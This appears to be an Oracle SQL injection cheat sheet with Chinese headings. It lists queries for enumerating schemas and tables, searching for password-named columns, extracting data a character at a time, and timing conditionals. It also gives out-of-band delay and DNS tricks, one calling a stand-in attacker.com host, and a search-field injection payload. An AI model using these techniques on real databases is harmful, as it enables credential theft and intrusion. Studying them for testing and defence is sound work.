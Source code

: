 	SELECT DISTINCT owner FROM all_tables; — list schemas (one per user)

列举表名
	
	SELECT table_name FROM all_tables;
	SELECT owner, table_name FROM all_tables;
判断及字符串相关
	
	#查找表中的列名
	SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE ‘%PASS%’; — NB: table names are upper case

	#查找第几列
	SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9; — gets 9th row (rows numbered from 1)
	
	#查找第几个字符
	SELECT substr(‘abcd’, 3, 1) FROM dual; — gets 3rd character, ‘c’
	
	#Bitwise AND
	SELECT bitand(6,2) FROM dual; — returns 2
	SELECT bitand(6,1) FROM dual; — returns 0
	
	#查找ASCII字符
	SELECT chr(65) FROM dual; — returns A

	#查找ASCII值
	SELECT ascii(‘A’) FROM dual; — returns 65
	
	#cast转换
	SELECT CAST(1 AS char) FROM dual;
	SELECT CAST(’1′ AS int) FROM dual;
	
	#字符链接
	SELECT ‘A’ || ‘B’ FROM dual; — returns AB

	#if判断
	BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END; — doesn’t play well with SELECT statements

	#case判断
	SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — returns 1
	SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — returns 2
	
	#避免引用
	SELECT chr(65) || chr(66) FROM dual; — returns AB

	#时间延迟
	BEGIN DBMS_LOCK.SLEEP(5); END; — priv, can’t seem to embed this in a SELECT
	SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — if reverse looks are slow
	SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual; — if forward lookups are slow
	SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual; — if outbound TCP is filtered / slow
	– Also see Heavy Queries to create a time delay

	#制造DNS请求
	SELECT UTL_INADDR.get_host_address(‘google.com’) FROM dual;
	SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;


	搜索型注入的语句为：
	select * from 表名 where 字段列名 like '%keywords%'
	
    select * from 表名 where 字段列名 like '%keywords   %' and 1=1 and '%'='     %'其中%' and 1=1 and '%'='为为闭合sql语句而加入的语句。其中的and 1=1处可以加入其他的语句进行判断注入了。
	
